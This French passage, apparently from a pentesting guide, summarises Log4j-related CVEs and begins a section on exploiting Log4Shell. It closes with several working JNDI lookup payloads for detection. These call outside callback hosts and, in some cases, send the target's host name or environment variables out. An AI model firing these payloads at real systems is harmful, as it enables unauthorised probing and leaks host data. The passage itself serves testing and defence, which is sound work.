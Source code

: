 Initialement évalué comme faible mais ensuite reclassé comme critique, ce CVE est un **défaut de déni de service (DoS)** résultant d'un correctif incomplet dans 2.15.0 pour CVE-2021-44228. Il affecte les configurations non par défaut, permettant aux attaquants de provoquer des attaques DoS via des charges utiles conçues. Un [tweet](https://twitter.com/marcioalm/status/1471740771581652995) présente une méthode de contournement. Le problème est résolu dans les versions 2.16.0 et 2.12.2 en supprimant les modèles de recherche de message et en désactivant JNDI par défaut.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[Élevé]**

Affectant les **versions Log4j 1.x** dans des configurations non par défaut utilisant `JMSAppender`, ce CVE est un défaut de désérialisation non fiable. Aucun correctif n'est disponible pour la branche 1.x, qui est en fin de vie, et il est recommandé de passer à `log4j-core 2.17.0`.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Modéré]**

Cette vulnérabilité affecte le **framework de journalisation Logback**, un successeur de Log4j 1.x. Précédemment considéré comme sûr, le framework a été trouvé vulnérable, et de nouvelles versions (1.3.0-alpha11 et 1.2.9) ont été publiées pour résoudre le problème.

### **CVE-2021-45105** **\[Élevé]**

Log4j 2.16.0 contient un défaut DoS, ce qui a conduit à la publication de `log4j 2.17.0` pour corriger le CVE. Plus de détails sont dans le [rapport de BleepingComputer](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Affectant la version log4j 2.17, ce CVE nécessite que l'attaquant contrôle le fichier de configuration de log4j. Il implique une exécution potentielle de code arbitraire via un JDBCAppender configuré. Plus de détails sont disponibles dans le [post de blog Checkmarx](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).

## Exploitation de Log4Shell

### Découverte

Cette vulnérabilité est très facile à découvrir si elle n'est pas protégée car elle enverra au moins une **demande DNS** à l'adresse que vous indiquez dans votre charge utile. Par conséquent, des charges utiles comme :

- `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (utilisant [canarytokens.com](https://canarytokens.org/generate))
- `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (utilisant [interactsh](https://github.com/projectdiscovery/interactsh))
- `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (utilisant Burp Suite)
- `${jndi:ldap://2j4ayo.dnslog.cn}` (utilisant [dnslog](http://dnslog.cn))
- `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` (utilisant [huntress](https://log4shell.huntress.com))
